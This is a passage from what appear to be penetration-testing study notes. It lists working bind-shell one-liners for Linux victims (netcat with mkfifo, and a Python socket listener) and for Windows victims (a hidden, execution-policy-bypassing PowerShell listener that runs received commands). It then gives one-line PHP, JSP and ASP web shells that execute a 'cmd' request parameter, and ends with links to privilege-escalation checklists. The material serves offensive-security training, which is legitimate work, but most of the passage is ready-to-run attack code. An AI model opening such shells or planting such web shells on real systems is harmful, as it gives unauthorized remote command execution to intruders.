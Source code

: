 **Linux Victim**

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
...or...
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Windows Victim**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

- The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

**php**

```php
<?php system($_REQUEST["cmd"]); ?>
```

**jsp**

```php
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**asp**

```php
<% eval request("cmd") %>
```

### PrivEsc Checklists

Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz/), which has an excellent checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md). We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.
